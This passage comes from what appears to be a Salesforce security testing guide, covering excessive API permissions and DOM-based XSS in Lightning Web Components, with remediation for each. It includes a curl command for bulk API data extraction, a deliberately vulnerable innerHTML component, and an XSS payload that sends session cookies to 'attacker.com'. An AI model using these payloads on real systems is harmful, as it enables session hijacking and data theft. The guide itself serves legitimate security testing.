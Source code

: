 **Impact:** Unauthorized data access or manipulation via API.  
**Remediation:** Limit Connected App scopes to minimal required access; enforce admin approval for app installations; monitor OAuth token usage.

### 8.2 Excessive API Permissions
**Description:** Standard or integration users with API access (`ApiEnabled`) can extract data programmatically.  
**Root Cause:** Profiles unnecessarily granted API permissions.  
**Enumeration Techniques:**
- **SOQL Query (Developer Console):**
  ```sql
  SELECT Name, PermissionsApiEnabled FROM Profile WHERE PermissionsApiEnabled = TRUE
  ```
- **Exploitation Steps:**
  1. Use valid credentials to access REST/SOAP APIs:
     ```bash
     curl -H "Authorization: Bearer <ACCESS_TOKEN>" \
          "https://<INSTANCE>.salesforce.com/services/data/v58.0/sobjects/"
     ```
  2. Enumerate all accessible objects and extract data.
**Impact:** Mass data exfiltration or lateral movement.  
**Remediation:** Restrict API access to specific profiles; use managed packages or named credentials for integrations.

---

## Client-Side & Web Vulnerabilities Testing

### 9.1 Lightning Web Component (LWC) DOM-Based XSS
**Description:** Unsanitized user input in LWCs can lead to JavaScript injection and code execution.  
**Root Cause:** Use of `innerHTML` or similar DOM manipulation methods without sanitization.  
**Enumeration Techniques:**
- **UI Navigation:** Check `Setup > Custom Code > Lightning Components` for custom LWCs.
- **Code Review (Developer Console):**
  ```javascript
  // Vulnerable LWC
  import { LightningElement, api } from 'lwc';
  export default class VulnerableComponent extends LightningElement {
      @api userInput;
      renderedCallback() {
          this.template.querySelector('div').innerHTML = this.userInput; // XSS risk
      }
  }
  ```
- **Exploitation Steps:**
  1. Pass a malicious payload via URL or form input:
     - Payload: `<script>alert('XSS')</script>`
  2. Confirm if the payload executes in the browser.
  3. Escalate to steal session cookies:
     - Payload: `<script>document.location='https://attacker.com/steal?cookie='+document.cookie</script>`
**Impact:** Session hijacking, data theft, or malicious actions.  
**Remediation:** Avoid `innerHTML`; use safe DOM APIs:
  ```javascript
  this.template.querySelector('div').textContent = this.userInput; // Safer
  ```
